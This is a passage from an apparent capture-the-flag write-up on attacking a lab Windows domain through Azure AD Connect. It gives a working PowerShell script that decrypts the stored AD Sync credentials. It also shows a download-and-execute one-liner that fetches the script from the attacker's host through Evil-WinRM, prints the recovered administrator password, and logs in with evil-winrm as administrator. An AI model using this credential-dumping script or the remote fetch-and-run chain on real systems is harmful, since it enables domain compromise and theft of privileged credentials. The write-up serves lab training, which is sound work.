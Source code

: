     $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()

    add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
    $decrypted = $null
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)



Now I can just use `python3 -m http.server 80` on my localhost, and run
it on Monteverde:



    *Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
    Domain: MEGABANK.LOCAL
    Username: administrator
    Password: d0m@in4dminyeah!



Interestingly, it gives the administrator account password. That must be
the replication account here, instead of the MSOL\_ account I saw in the
documentation.

### Shell Over WinRM

With this password, I can get a WinRM shell as administrator:



    root@kali# evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

    Evil-WinRM shell v2.1
